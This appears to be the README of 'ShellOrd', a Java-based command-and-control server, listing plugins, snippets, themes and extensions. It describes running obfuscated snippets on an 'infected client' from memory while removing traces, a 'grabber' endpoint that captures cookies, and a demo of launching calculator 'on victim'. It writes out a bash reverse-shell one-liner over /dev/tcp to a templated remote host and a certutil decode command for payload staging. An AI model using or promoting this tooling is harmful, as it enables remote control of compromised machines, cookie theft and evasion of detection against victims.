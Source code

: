 🐚 ShellOrd Server Cross-Platform written in Java

- Plugins: A collection of plugins. (.jar or .py). 

## Requirements

- Python plugins requires Jython Standalone 2.7.3.
- ShellOrd Server requires Java 17+.
- Import Certificates in format PKCS12 (.p12) to enable SSL or HTTPS.

## Web server - Login

![shellord-login](../_img/shellord-login.gif)

### Bypass localhost + capture requests

https://shellord.mibaltoalex.com:60443

shellord.mibaltoalex.com => 127.0.0.1

### Grabber requests (GET / POST)

https://shellord.mibaltoalex.com:60443/grabber/info?cookie=captured

`2022-03-12 11:08:20.842 SHELLORD::grabber: Request captured: 'Host: 127.0.0.1 ; GET /info?cookie=captured'`

## Snippets

All snippets are packed, compressed and encrypted in `.mar` (MAR; MIBALTOALEX ARchive) files.
A snippet can contain URIs, binary code, scripts (bash, powershell, etc) and plain text (.c, .py, .java, .rs, .sh, .rb, .bat, .txt, ...).

Allows you to run any obfuscated snippet on the infected client. You can also run any obfuscated snippet from memory to the client in paranoid mode and remove traces.

Example to use parameters in snippets: 
```bash
# bash
bash -c 'exec bash -i &>/dev/tcp/~[[rhost]]/~[[rport]] <&1'
```
```powershell
# powershell
certutil -decode ~[[file_input]] ~[[file_output]]
```

## Shell

Includes commands to configure SHELLORD.

![shellord-cmd-config](../_img/shellord-cmd-config.jpg)

Note: Deprecated old mode

## Themes

Includes dark and light theme.

![shellord-extensions](../_img/shellord-theme.jpg)

## Modules

An improved module system.

![shellord-extensions](../_img/shellord_new_ui.jpg)

## Extensions

Includes extensions.

![shellord-extension-demo](../_img/shellord_extension_demo.jpg)

### API

Now allows to set metadata both in code and in annotations

![shellord-metadata](../_img/shellord-metadata.jpg)

### Menu de rutas

Includes menu with custom routes.

![shellord-menu](../_img/shellord-menu.jpg)

### Example

Example launch calculator on victim (Windows)

![shellord-calc](../_img/shellord_calc.gif)

## Utils

- JVM Reverse Engineering

